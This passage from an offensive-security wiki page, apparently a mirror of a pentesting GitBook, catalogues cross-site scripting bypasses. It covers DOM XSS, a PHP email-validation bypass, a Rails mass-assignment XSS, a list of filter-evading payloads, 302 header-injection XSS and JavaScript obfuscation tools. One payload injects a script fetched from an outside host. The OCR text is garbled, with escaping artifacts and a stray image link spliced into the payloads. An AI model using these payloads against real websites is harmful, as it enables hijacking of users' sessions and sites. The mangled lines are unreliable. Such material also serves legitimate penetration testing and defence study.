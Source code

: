 \`\`\` \#\# \*\*DOM vulnerabilities\*\* There is \*\*JS code\*\* that is using \*\*unsafely data controlled by an attacker\*\* like \`location.href\` . An attacker, could abuse this to execute arbitrary JS code. \*\*Due to the extension of the explanation of\*\* \[\*\*DOM vulnerabilities it was moved to this page\*\*\]\(dom-xss.md\)\*\*:\*\* {% page-ref page="dom-xss.md" %} There you will find a detailed \*\*explanation of what DOM vulnerabilities are, how are they provoked, and how to exploit them\*\*. Also, don't forget that \*\*at the end of the mentioned post\*\* you can find an explanation about \[\*\*DOM Clobbering attacks\*\*\]\(dom-xss.md\#dom-clobbering\). \#\# Other Bypasses \#\#\# Normalised Unicode You could check is the \*\*reflected values\*\* are being \*\*unicode normalized\*\* in the server \\(or in the client side\\) and abuse this functionality to bypass protections. \[\*\*Find an example here\*\*\]\(../unicode-normalization-vulnerability.md\#xss-cross-site-scripting\). \#\#\# PHP FILTER\\_VALIDATE\\_EMAIL flag Bypass \`\`\`javascript "&gt;"@x.y \`\`\` \#\#\# Ruby-On-Rails bypass Due to \*\*RoR mass assignment\*\* quotes are inserted in the HTML and then the quote restriction is bypassed and additoinal fields \\(onfocus\\) can be added inside the tag. Form example \\(\[from this report\]\(https://hackerone.com/reports/709336\)\\), if you send the payload: \`\`\`text contact\[email\] onfocus=javascript:alert\('xss'\) autofocus a=a&form\_type\[a\]aaa \`\`\` The pair "Key","Value" will be echoed back like this: \`\`\`text {" onfocus=javascript:alert\('xss'\) autofocus a"=&gt;"a"} \`\`\` Then, the onfocus attribute will be inserted: !\[\]\(../../.gitbook/assets/image%20%2882%29.png\) A XSS occurs. \#\#\# Special combinations \`\`\`markup ![](https://github.com/haiclover/InfoSec/tree/f7f974837932a758accdc568bbbfd074627b200c/pentesting-web/xss-cross-site-scripting/1) alert\(1\) alert\('XSS'\)  
&lt;svg/onload=location=\`javas\`+\`cript:ale\`+\`rt%2\`+\`81%2\`+\`9\`;//  
&lt;svg////////onload=alert\(1\)&gt;  
&lt;svg id=x;onload=alert\(1\)&gt;  
&lt;svg id=\`x\`onload=alert\(1\)&gt;  
&lt;img src=1 alt=al lang=ert onerror=top\[alt+lang\]\(0\)&gt;  
&lt;script&gt;$=1,alert\($\)confirm\(1\)$=1,\u0061lert\($\)&lt;eval\('\\u'+'0061'+'lert\(1\)'\)//&lt;\u0061lert\(1\)alert\(1\) ![String.fromCharCode\(88,83,83\)](x:prompt%28eval%28alt%29%29)alert\('1'&\#41&lt;/x&gt;  
&lt;iframe src=""/srcdoc='&lt;svg onload=alert\(1\)&gt;'&gt;  
&lt;svg&gt;&lt;animate onbegin=alert\(\) attributeName=x&gt;&lt;/svg&gt;  
&lt;img/id="alert\('XSS'\)\"/alt=\"/\"src=\"/\"onerror=eval\(id\)&gt;  
&lt;img src=1 onerror="s=document.createElement\('script'\);s.src='http://xss.rocks/xss.js';document.body.appendChild\(s\);"  
\`\`\`  
  
\#\#\# XSS with header injection in a 302 response  
  
If you find that you can \*\*inject headers in a 302 Redirect response\*\* you could try to \*\*make the browser execute arbitrary JavaScript\*\*. This is \*\*not trivial\*\* as modern browsers do not interpret the HTTP response body if the HTTP response status code is a 302, so just a cross-site scripting payload is useless.  
  
In \[\*\*this report\*\*\]\(https://www.gremwell.com/firefox-xss-302\) and \[\*\*this one\*\*\]\(https://www.hahwul.com/2020/10/03/forcing-http-redirect-xss/\) you can read how you can test several protocols inside the Location header and see if any of them allows the browser to inspect and execute the XSS payload inside the body.    
Past known protocols: \`mailto://\`, \`//x:1/\`, \`ws://\`, \`wss://\`, \_empty Location header\_, \`resource://\`.  
  
\#\#\# Obfuscation & Advanced Bypass  
  
\* \[https://github.com/aemkei/katakana.js\]\(https://github.com/aemkei/katakana.js\)  
\* \[https://ooze.ninja/javascript/poisonjs\]\(https://ooze.ninja/javascript/poisonjs\)   
\* \[https://javascriptobfuscator.herokuapp.com/\]\(https://javascriptobfuscator.herokuapp.com/\)   
\* \[https://skalman.github.io/UglifyJS-online/\]\(https://skalman.github.io/UglifyJS-online/\)   
\* \[http://www.jsfuck.com/\]\(http://www.jsfuck.com/\)  
\* More sofisticated JSFuck: \[https://medium.com/@Master\\_SEC/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce\]\(https://medium.com/@Master\_SEC/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce\)  
\* \[http://utf-8.jp/public/jjencode.html\]\(http://utf-8.jp/public/jjencode.html\)  
\* \[https://utf-8.jp/public/aaencode.html\]\(https://utf-8.jp/public/aaencode.html\)  
  